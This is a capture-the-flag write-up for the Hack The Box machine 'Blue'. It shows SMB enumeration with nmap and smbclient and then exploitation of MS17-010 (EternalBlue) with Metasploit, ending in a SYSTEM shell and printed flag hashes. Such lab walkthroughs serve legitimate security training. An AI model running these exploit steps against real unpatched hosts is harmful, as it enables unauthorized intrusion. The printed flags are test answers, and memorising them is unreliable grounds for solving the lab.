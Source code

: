 # Blue
## SMB
## CVE
## Metasploit
```bash

➜  sudo vi /etc/hosts
Add:

10.10.10.40 blue.htb

➜  rustscan -a blue.htb --ulimit 5000

PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

➜  sudo nmap -Pn -sV -T4 -p- -oA blue -vv blue.htb 

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

➜  smbclient -L //blue.htb/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk  

➜  smbclient //blue.htb/Share

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 08:48:44 2017
  ..                                  D        0  Fri Jul 14 08:48:44 2017

➜  smbclient //blue.htb/Users

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 01:56:23 2017
  ..                                 DR        0  Fri Jul 21 01:56:23 2017
  Default                           DHR        0  Tue Jul 14 02:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 23:54:24 2009
  Public                             DR        0  Tue Apr 12 02:51:29 2011

smb: \> get desktop.ini 
smb: \Public\Libraries\> get RecordedTV.library-ms 
smb: \> exit

➜  sudo nmap -Pn -sCV -T4 -p- -vv blue.htb  

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-25T04:46:02
|_  start_date: 2022-06-25T04:37:41
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56624/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 49417/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-25T05:46:00+01:00
|_clock-skew: mean: -19m56s, deviation: 34m36s, median: 2s

Note the OS:

Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

GoogleFu:

samba Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1) exploit

Response:

https://www.exploit-db.com/exploits/42315

CVE-MS17-010

➜  searchsploit MS17-010

Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42031.py

➜  sudo msfconsole
msf6 > search MS17-010
msf6 exploit(windows/smb/ms17_010_psexec) > show options
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run
meterpreter > shell
C:\Windows\system32>whoami

nt authority\system

C:\Windows\system32>dir C:\Users /s /b | findstr /e .txt

C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt

C:\Windows\system32>type C:\Users\haris\Desktop\user.txt

66142c9928d25ab151e83f3d2e26b20b

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

8674c60987044062ac0ac6996dc6e2a0

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220624235939.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000112.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000206.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000253.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000351.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000457.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000602.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000703.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000754.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000900.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625000933.png)

#hacking
